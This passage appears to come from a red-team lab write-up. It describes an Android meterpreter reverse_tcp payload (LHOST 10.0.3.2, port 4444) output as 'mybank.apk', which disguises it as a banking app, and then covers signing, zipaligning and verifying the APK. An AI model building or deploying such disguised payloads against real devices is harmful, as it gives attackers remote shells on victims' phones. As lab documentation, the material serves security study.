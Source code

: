 **Payload Specifications:**
- Platform: Android
- Payload: `android/meterpreter/reverse_tcp`
- LHOST: 10.0.3.2 (exegol local IP)
- LPORT: 4444
- Output: mybank.apk (unsigned)

---

## Phase 2: APK Signing Process

Android requires all APKs to be signed before installation. We followed the standard signing procedure:

### Step 1: Generate Keystore

```bash
keytool -genkey -v \
  -keystore key.keystore \
  -alias redteam \
  -keyalg RSA \
  -keysize 2048 \
  -validity 1000
```

When prompted, provide the following information:
- Keystore password: [secure password]
- Name, organization, location details
- Confirm all information

### Step 2: Sign the APK

```bash
jarsigner -verbose \
  -sigalg SHA1withRSA \
  -digestalg SHA1 \
  -keystore key.keystore \
  mybank.apk \
  redteam
```

### Step 3: Optimize with Zipalign

```bash
zipalign -v 4 mybank.apk signed_mybank.apk
```

**Purpose of zipalign:** Aligns uncompressed data on 4-byte boundaries, improving runtime performance and reducing memory consumption.

### Step 4: Verify Signature

```bash
jarsigner -verify -verbose -certs signed_mybank.apk
```
